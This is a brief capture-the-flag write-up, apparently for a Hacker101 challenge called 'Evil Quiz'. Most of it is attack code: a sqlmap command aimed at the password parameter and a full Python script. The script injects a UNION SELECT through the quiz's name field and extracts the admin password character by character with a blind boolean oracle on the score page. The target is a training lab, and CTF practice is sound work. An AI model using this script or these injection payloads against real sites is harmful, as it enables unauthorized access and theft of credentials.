 Just how evil are you? Take the quiz and see! Just don't go poking around the admin area!

**admin**

the admin page is at:
`https://f9a13d7dbbdf5fa6d8410d6f9f9d9e10.ctf.hacker101.com/evil-quiz/admin/`

**sqlmap**

`sqlmap -r posts.txt --level=5 risk=3 --force-ssl -p password`

**exploit script**

using this script to exploit
```
#!/usr/bin/env python3
import requests

url='https://fdae5203bfb8670861592d2c80c9557c.ctf.hacker101.com/evil-quiz/'
cookies={'quizsession':'130bb8e4e20b6f534b1196c1c64d0252'}
alphabet = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890-=!"£$%^&*()_+[];#,./{}:@~<>?'

def attack(password):
    index=len(password)+1
    for letter in alphabet:
        print(letter)
        data={'name': "testabcd' union select 1,2,3,4 from admin where username ='admin' and ord(substr(password, %d, 1))='%d" % (index, ord(letter))}
        r = requests.post(url, cookies=cookies, data=data)
        data={'ques_1':0,'ques_2':0,'ques_3':0}
        r = requests.post(url+'start/', cookies=cookies, data=data)
        r = requests.get(url + 'score/', cookies=cookies)
        if 'There is 1 other' in r.text:
            print("found: "+password + letter)
            return password + letter
    return password

#password='S3creT'
password=''
while True:
    np=attack(password)
    if np == password:
        print("Password found: '%s'" % (password))
        break
    password=np

```

